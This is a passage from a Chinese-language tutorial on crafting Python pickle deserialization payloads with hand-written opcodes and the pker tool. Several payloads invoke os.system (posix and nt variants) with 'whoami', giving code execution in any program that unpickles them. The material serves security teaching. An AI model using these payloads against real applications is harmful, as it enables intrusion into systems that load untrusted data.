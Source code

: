 >.'''
>```
>
>1. `o` ：
>
>```
>b'''(cos
>system
>S'whoami'
>o.'''
>```
>
>#### 实例化对象
>
>实例化对象是一种特殊的函数执行，这里简单的使用 `R` 构造一下，其他方式类似：
>
>```
>class Student:
>    def __init__(self, name, age):
>        self.name = name
>        self.age = age
>
>data=b'''c__main__
>Student
>(S'XiaoMing'
>S"20"
>tR.'''
>
>a=pickle.loads(data)
>print(a.name,a.age)
>```
>
>#### pker的使用（推荐）
>
>- pker是由@eddieivan01编写的以仿照Python的形式产生pickle opcode的解析器，可以在https://github.com/eddieivan01/pker下载源码。解析器的原理见作者的paper：[通过AST来构造Pickle opcode](https://xz.aliyun.com/t/7012)。
>- 使用pker，我们可以更方便地编写pickle opcode，pker的使用方法将在下文中详细介绍。需要注意的是，建议在能够手写opcode的情况下使用pker进行辅助编写，不要过分依赖pker。
>
>#### 注意事项
>
>pickle序列化的结果与操作系统有关，使用windows构建的payload可能不能在linux上运行。比如：
>
>```
># linux(注意posix):
>b'cposix\nsystem\np0\n(Vwhoami\np1\ntp2\nRp3\n.'
>
># windows(注意nt):
>b'cnt\nsystem\np0\n(Vwhoami\np1\ntp2\nRp3\n.'
>```
>
>### pker能做的事
>
>引用自https://xz.aliyun.com/t/7012#toc-5：
>
>> - 变量赋值：存到memo中，保存memo下标和变量名即可
>> - 函数调用
>> - 类型字面量构造
>> - list和dict成员修改
>> - 对象成员变量修改
>
>具体来讲，可以使用pker进行原变量覆盖、函数执行、实例化新的对象。
>
>### 使用方法与示例
